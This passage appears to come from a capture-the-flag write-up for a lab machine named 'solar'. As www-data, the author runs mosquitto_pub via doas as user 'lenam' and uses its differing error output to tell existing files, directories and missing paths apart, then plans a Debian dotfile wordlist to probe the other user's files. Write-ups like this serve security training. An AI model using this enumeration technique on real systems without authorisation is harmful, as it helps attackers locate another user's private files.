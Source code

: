 ```bash
www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./file       
Error: Both topic and message must be supplied.
mosquitto_pub is a simple mqtt client that will publish a message on a single topic and exit.
mosquitto_pub version 2.0.11 running on libmosquitto 2.0.11.

Usage: mosquitto_pub {[-h host] [--unix path] [-p port] [-u username] [-P password] -t topic | -L URL}
                     {-f file | -l | -n | -m message}
                     [-c] [-k keepalive] [-q qos] [-r] [--repeat N] [--repeat-delay time] [-x session-expiry]
                     [-A bind_address] [--nodelay]
                     [-i id] [-I id_prefix]
                     [-d] [--quiet]
                     [-M max_inflight]
                     [-u username [-P password]]
                     [--will-topic [--will-payload payload] [--will-qos qos] [--will-retain]]
                     [{--cafile file | --capath dir} [--cert file] [--key file]
                       [--ciphers ciphers] [--insecure]
                       [--tls-alpn protocol]
                       [--tls-engine engine] [--keyform keyform] [--tls-engine-kpass-sha1]]
                       [--tls-use-os-certs]
                     [--psk hex-key --psk-identity identity [--ciphers ciphers]]
                     [--proxy socks-url]
                     [--property command identifier value]
                     [-D command identifier value]
       mosquitto_pub --help
      ...
```

Or if it is a directory:

```bash
www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./folder
Error: File must be less than 268435455 bytes.

Error loading input file "./folder".

www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./filenoexist 2>&1 | wc -l
2
www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./file 2>&1 | wc -l
97
www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./folder 2>&1 | wc -l
3
```

The system is Debian 12.

```bash
$ cat /etc/debian_version
12.7
```

We create a dictionary of the most common dotfiles in Debian from the URL https://wiki.debian.org/DotFilesList.
